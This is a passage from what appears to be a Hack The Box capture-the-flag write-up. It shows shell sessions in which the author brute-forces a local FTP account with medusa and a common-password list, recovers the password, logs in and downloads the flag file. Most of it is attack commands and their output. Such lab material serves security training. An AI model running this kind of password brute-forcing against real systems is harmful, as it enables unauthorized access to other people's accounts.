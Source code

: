 
```
sshuser@ng-1340293-loginbfservice-amvfj-8678d96dc8-r66vm:~$ ls /home
ftpuser sshuser
```

We got other user `ftpuser`, let's brute force:

```
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5

sword: 1234567 (11 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: qwerty (12 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: Million2 (13 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: abc123 (14 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: 000000 (15 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: qqww1122 (16 of 197 complete)
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ftpuser Password: qqww1122 [SUCCESS]
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 1 complete) Password: 1234 (17 of 197 complete)
```

We got credentials:

```ad-note
`ftpuser`:`qqww1122`
```

Let's log into ftp:

```
ftp ftp://ftpuser:qqww1122@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||26248|)
150 Here comes the directory listing.
-rw------- 1 1001 1001 35 Feb 13 20:24 flag.txt
226 Directory send OK.
```

Found the flag, let's read it:

```
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||34427|)
150 Opening BINARY mode data connection for flag.txt (35 bytes).
100% |***************************************************| 35 697.54 KiB/s 00:00 ETA
226 Transfer complete.

cat flag.txt

HTB{SSH_and_FTP_Bruteforce_Success}

```

